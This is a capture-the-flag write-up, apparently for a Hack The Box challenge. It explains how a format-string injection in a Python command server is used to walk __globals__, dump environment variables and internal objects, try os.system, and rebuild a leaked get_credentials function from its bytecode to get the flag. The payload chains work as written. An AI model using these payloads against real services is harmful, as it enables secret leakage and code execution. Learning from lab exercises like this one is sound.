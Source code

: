 > We successfully hacked into the secret Git server of the HideAndSec,
> and we found the source code of this Python script being used in remote,
> can you help us exploit it, gather their access credentials and arrest these criminals?

> Author: **[mxrch][author-profile]**

## Interacting with the CC

The CC executes the commands listed in a Python format string:

```shell
 nc 157.245.33.77 32222
# Welcome in the HideAndSec secret VPS ! [Location : Paris, France]
# [+] Vipère v1.26 loaded !
# ~ Currently loaded functions : [whoami, get_time, get_version]

# Which function do you want to launch ?
# Example : Bonjour {whoami}, il est actuellement {get_time} !
# => heyhey {whoami}*
# heyhey ctf
```

## The code

The server parses the format string to get the names of the requested functions:

```python
text = interface.get_input()
requested_commands = [fname for _, fname, _, _ in Formatter().parse(text) if fname]
secure_commands = SecureCommands(requested_commands)
```

Then it computes the corresponding functions:

```python
def verify_commands(self):
    for cmd in self.requested_commands:
        if cmd == "debug":
            import pdb; pdb.set_trace()
        if cmd in self.dispatcher and callable(self.dispatcher[cmd]):
            self.dispatcher[cmd] = self.dispatcher[cmd]()
```

And finally returns the results in a dictionary:

```python
interface.print(text.format(**secure_commands.dispatcher))
```

If the command names don't match the dictionary holds:

```python
self.dispatcher = {
    "whoami": self.whoami,
    "get_time": self.get_time,
    "get_version": self.get_version
}
```

So in the `format` call, `{whoami.__globals__}` is replaced with `SecureCommands().whoami.__globals__` which is:

```python
"{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f54d3dc9340>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/ctf/main.py', '__cached__': None, 'sys': <module 'sys' (built-in)>, 'os': <module 'os' from '/usr/local/lib/python3.8/os.py'>, 'subprocess': <module 'subprocess' from '/usr/local/lib/python3.8/subprocess.py'>, 'socketserver': <module 'socketserver' from '/usr/local/lib/python3.8/socketserver.py'>, 'datetime': <class 'datetime.datetime'>, 'Formatter': <class 'string.Formatter'>, 'Station': <class '__main__.Station'>, 'SecureCommands': <class '__main__.SecureCommands'>, 'SecureBridge': <class '__main__.SecureBridge'>, 'ServerContext': <class '__main__.ServerContext'>, 'address': ('0.0.0.0', 1337), 'server': <__main__.ServerContext object at 0x7f54d3c93940>}"
```

They could have evaluated the functions beforehand and stored the results to serve plain strings. But:

```python
# To optimize resources, we only call functions when they are requested
```

## Exploiting the format string

Various tests:

```python
"heyhey {whoami.__init__}"
"heyhey {whoami.__globals__['__builtins__'].__import__('os').getuid}"
"heyhey {whoami.__init__.__class__.__bases__[0].__subclasses__()}"
"heyhey {whoami.__init__.__globals__['__builtins__']}"
"heyhey {whoami.__init__.__globals__['__builtins__']['__import__']('os')}"
"heyhey {whoami.__init__.__globals__['__builtins__']['__import__']('os').system('ls')}"
```

The quotes break the evaluation: contrary to a standard Python expression, keys in format string variables shouldn't be quoted:

```python
# right
"{whoami.__globals__[__builtins__]}"
# wrong
"{whoami.__globals__['__builtins__']}"
```

For the parser, in `{whoami.__globals__}`, the key is `whoami`.

```python
"heyhey {whoami.__globals__}"
# heyhey {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f7de7901340>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/ctf/main.py', '__cached__': None, 'sys': <module 'sys' (built-in)>, 'os': <module 'os' from '/usr/local/lib/python3.8/os.py'>, 'subprocess': <module 'subprocess' from '/usr/local/lib/python3.8/subprocess.py'>, 'socketserver': <module 'socketserver' from '/usr/local/lib/python3.8/socketserver.py'>, 'datetime': <class 'datetime.datetime'>, 'Formatter': <class 'string.Formatter'>, 'Station': <class '__main__.Station'>, 'SecureCommands': <class '__main__.SecureCommands'>, 'SecureBridge': <class '__main__.SecureBridge'>, 'ServerContext': <class '__main__.ServerContext'>, 'address': ('0.0.0.0', 1337), 'server': <__main__.ServerContext object at 0x7f7de77cb940>}
```
The chain has to be structured so that the parser identifies the key as "whoami", to maintain the match `"whoami" => SecureCommands.whoami`.

[Hacktricks][hacktricks-format-string] shows a few tricks to explore the code:

```python
"{whoami.__globals__[os].environ}"
# environ({'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'HOSTNAME': 'miscvipere-413156-6f7c57c9cf-pjjgh', 'LANG': 'C.UTF-8', 'GPG_KEY': 'E3FF2839C048B25C084DEBE9B26995E310250568', 'PYTHON_VERSION': '3.8.11', 'PYTHON_PIP_VERSION': '21.1.3', 'PYTHON_GET_PIP_URL': 'https://github.com/pypa/get-pip/raw/a1675ab6c2bd898ed82b1f58c486097f763c74a9/public/get-pip.py', 'PYTHON_GET_PIP_SHA256': '6665659241292b2147b58922b9ffe11dda66b39d52d8a6f3aa310bc1d60ea6f7', 'KUBERNETES_SERVICE_PORT': '443', 'KUBERNETES_SERVICE_PORT_HTTPS': '443', 'KUBERNETES_PORT': 'tcp://10.245.0.1:443', 'KUBERNETES_PORT_443_TCP': 'tcp://10.245.0.1:443', 'KUBERNETES_PORT_443_TCP_PROTO': 'tcp', 'KUBERNETES_PORT_443_TCP_PORT': '443', 'KUBERNETES_PORT_443_TCP_ADDR': '10.245.0.1', 'KUBERNETES_SERVICE_HOST': '10.245.0.1', 'HOME': '/home/ctf'})
"{whoami.__globals__[server].__dict__[bridge].__dict__[db].__dict__}"
# {'bank_accounts': {'official': 10000, 'offshore': 1983388028}, 'total_infected': 275470559, 'viperebot_new_victims_pairs_ids': ['4e1a50c6-9eab-47d0-b268-89c4b70402ce', '825bd6da-eacc-4090-b537-02598e022694', 'fb63b301-58a1-456a-a47b-f43e253b7ada', '7b1d2d11-1394-48e5-8f37-93f0df979736', '226bca53-e670-4cc7-bfe5-8fa64f9a0d67']}}
"{whoami.__globals__[server].__dict__[RequestHandlerClass].__dict__}"
# {'__module__': '__main__', 'get_loaded_commands': <function Station.get_loaded_commands at 0x7f9177cf65e0>, 'get_input': <function Station.get_input at 0x7f9177cfb820>, 'print': <function Station.print at 0x7f9177cfb8b0>, 'handle': <function Station.handle at 0x7f9177cfb940>, '__doc__': None}
"{whoami.__globals__[SecureCommands].__dict__}"
"{whoami.__globals__[SecureCommands].__dict__[verify_commands].__code__}"
```

```python
"{whoami.__globals__[server].__dict__[bridge].__dict__[db].__class__.__dict__}"
# {'__module__': 'database', '__init__': <function SecureDatabase.__init__ at 0x7f54d3c35af0>, 'update': <function SecureDatabase.update at 0x7f54d3c35b80>, 'connect': <function SecureDatabase.connect at 0x7f54d3c35c10>, 'get_credentials': <function SecureDatabase.get_credentials at 0x7f54d3c35ca0>, '__dict__': <attribute '__dict__' of 'SecureDatabase' objects>, '__weakref__': <attribute '__weakref__' of 'SecureDatabase' objects>, '__doc__': None}
"{whoami.__globals__[server].__dict__[bridge].__dict__[db].__class__.__dict__[get_credentials]}"
# <function SecureDatabase.get_credentials at 0x7f54d3c35ca0>
"{whoami.__globals__[server].__dict__[bridge].__dict__[db].__class__.__dict__[get_credentials].__code__}"
# <code object get_credentials at 0x7f54d3bf2b30, file "/home/ctf/database.py", line 22>
```

## Reproducing the funtion "get_credentials"

The last chain can be used to extract the assembly of the function `get_credentials`:

```python
"{whoami.__globals__[server].__dict__[bridge].__dict__[db].__class__.__dict__[get_credentials].__code__.co_argcount}"
# 1
"{whoami.__globals__[server].__dict__[bridge].__dict__[db].__class__.__dict__[get_credentials].__code__.co_code}"
# b'd\x01}\x01d\x02}\x02d\x03d\x00d\x00d\x04\x85\x03\x19\x00}\x03d\x05d\x00d\x00d\x04\x85\x03\x19\x00}\x04d\x06}\x05d\x07}\x06d\x08}\x07t\x00|\x01\x83\x01|\x03\x17\x00t\x00d\t\x83\x01\x17\x00|\x04\x17\x00|\x07\x17\x00|\x02\xa0\x01d\nd\x0b\xa1\x02\x17\x00|\x06d\x00d\x00d\x04\x85\x03\x19\x00\x17\x00d\x0c\x17\x00t\x00|\x05\x83\x01d\r\x14\x00\x17\x00t\x00d\x0e\x83\x01\x17\x00}\x01d\x0fd\x10d\x11d\x12\x9c\x03}\x08|\x08D\x00]\x14}\t|\x01\xa0\x01|\t|\x08|\t\x19\x00\xa1\x02}\x01q\x8e|\x01S\x00'
```

According to [Hacktricks <3][hacktricks-leak-function] this informations can be decompiled to recreate the original function.

After having extracted all the properties of the function, we get:

```python
# leaked properties of "get_credentials"
ARGCOUNT = 1
POSONLYARGCOUNT = 0
KWONLYARGCOUNT = 0
NLOCALS = 10
STACKSIZE = 6
FLAGS = 67
BYTECODE = b'd\x01}\x01d\x02}\x02d\x03d\x00d\x00d\x04\x85\x03\x19\x00}\x03d\x05d\x00d\x00d\x04\x85\x03\x19\x00}\x04d\x06}\x05d\x07}\x06d\x08}\x07t\x00|\x01\x83\x01|\x03\x17\x00t\x00d\t\x83\x01\x17\x00|\x04\x17\x00|\x07\x17\x00|\x02\xa0\x01d\nd\x0b\xa1\x02\x17\x00|\x06d\x00d\x00d\x04\x85\x03\x19\x00\x17\x00d\x0c\x17\x00t\x00|\x05\x83\x01d\r\x14\x00\x17\x00t\x00d\x0e\x83\x01\x17\x00}\x01d\x0fd\x10d\x11d\x12\x9c\x03}\x08|\x08D\x00]\x14}\t|\x01\xa0\x01|\t|\x08|\t\x19\x00\xa1\x02}\x01q\x8e|\x01S\x00'
CONSTS = (None, 72, 'apts_c', 'BT', -1, 'orc', 109, 'ocoh', 'iss', 123, 'p', 'n', '_h', 4, 125, '0', '1', '4', ('o', 'l', 'a'))
NAMES = ('chr', 'replace')
VARNAMES = ('self', 'f', 'a', 'blue', 'c', 'm', 'h', 'i', 'd', 'x')
FILENAME = '/home/ctf/database.py'
NAME = 'get_credentials'
FIRSTLINENO = 22
LNOTAB = b'\x00\x01\x04\x01\x04\x01\x0e\x01\x0e\x01\x04\x01\x04\x01\x04\x01N\x01\x0c\x01\x08\x01\x12\x01'
CELLVARS = ()
FREEVARS = ()

# builder
function_type = type(lambda: None)
code_type = type((lambda: None).__code__)
code_obj = code_type(ARGCOUNT, POSONLYARGCOUNT, KWONLYARGCOUNT, NLOCALS, STACKSIZE, FLAGS, BYTECODE, CONSTS, NAMES, VARNAMES, FILENAME, NAME, FIRSTLINENO, LNOTAB, cellvars=CELLVARS, freevars=FREEVARS)
function_obj = function_type(code_obj, {'__builtins__': __builtins__}, None, None, None)
```

Still, it can't be called as is:

```shell
python get_credentials.py
# TypeError: get_credentials() missing 1 required positional argument: 'self'
```

So we encapsulate it in a class:

```python
class SecureDatabase():

    def __init__(self):
        pass

SecureDatabase.get_credentials = function_type(code_obj, {'__builtins__': __builtins__}, None, None, None)

print(SecureDatabase().get_credentials())
```

> `HTB{cr0iss4nts_ch0c0_hmmmm}`

[author-profile]: https://app.hackthebox.com/users/181024
[hacktricks-format-string]: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#globals-and-locals
[hacktricks-leak-function]: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#recreating-a-leaked-function
[stackoverflow]: https://softwareengineering.stackexchange.com/a/182095
